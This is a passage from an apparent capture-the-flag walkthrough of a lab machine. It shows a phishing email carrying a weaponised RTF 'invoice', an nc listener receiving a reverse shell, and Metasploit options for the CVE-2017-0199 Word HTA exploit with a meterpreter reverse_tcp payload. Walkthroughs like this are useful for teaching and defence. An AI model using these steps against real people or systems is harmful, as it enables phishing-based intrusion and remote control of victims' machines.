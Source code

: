     Nov 05 12:30:43 kali sendEmail[20365]: Setting content-type: text/plain
    Nov 05 12:30:43 kali sendEmail[20365]: DEBUG => Sending the attachment [invoice.rtf]
    Nov 05 12:30:54 kali sendEmail[20365]: SUCCESS => Received:     250 Queued (11.609 seconds)
    Nov 05 12:30:54 kali sendEmail[20365]: Email was sent successfully!  From: <0xdf@megabank.com> To: <nico@megabank.com> Subject: [Invoice Attached] Attachment(s): [invoice.rtf] Server: [10.10.10.77:25]
    

Shortly after that, I get a shell:

    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.3] from (UNKNOWN) [10.10.10.77] 54014
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    whoami
    htb\nico
    

Here’s what that looks like (takes about 35 seconds):

![](https://0xdfimages.gitlab.io/img/reel-shell.gif)

### Metasploit

Metasploit has a module for CVE-2017-0199,
`exploit/windows/fileformat/office_word_hta`, which takes generates the
document and takes care of the servers.

I’ll set up the options for this module, and run it:

    
    
    msf5 exploit(windows/fileformat/office_word_hta) > options
    
    Module options (exploit/windows/fileformat/office_word_hta):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       FILENAME  invoice.doc      yes       The file name.
       SRVHOST   10.10.14.3       yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT   80               yes       The local port to listen on.
       SSL       false            no        Negotiate SSL for incoming connections
       SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH   default.hta      yes       The URI to use for the HTA file
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
       LPORT     443              yes       The listen port
    